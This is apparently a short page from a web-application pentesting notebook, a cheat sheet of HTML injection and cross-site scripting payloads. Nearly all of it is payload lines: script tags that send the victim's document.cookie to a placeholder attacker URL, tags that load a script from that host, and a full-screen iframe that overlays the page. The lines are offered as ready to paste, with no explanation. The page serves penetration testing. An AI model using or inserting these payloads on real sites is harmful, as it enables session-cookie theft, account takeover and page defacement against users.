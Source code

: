 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - cross-site-scripting
---
```

# HTML Attributes

A list of payloads to inject links

```
<script>new Image().src="http[s]://<attacker_URL>/cookies.php?cookie="+document.cookie;</script>
<script>document.location="http[s]://<attacker_URL>/cookies.php?cookie="+document.cookie</script>
<script>window.location="http[s]://<attacker_URL>/cookies.php?cookie="+document.cookie</script>

<script src="http[s]://<attacker_URL>/script.js"></script>
<img src="http[s]://<attacker_URL>/script.js">
<svg src="http[s]://<attacker_URL>/script.js">
<iframe src="http[s]://<attacker_URL>/script.js">
"><iframe src="https://www.cia.gov/" style="border: 0; position: fixed; top: 0; left: 0; right: 0; bottom: 0; width: 100%; height: 100%">
```

---
## References

- [[07 - Tactics & Techniques & Procedures Phases/D - Webapp Pentesting/Injection/Client-Side Attack/HTML Injection/Helpers/Detection|HTML Injection: Helpers]]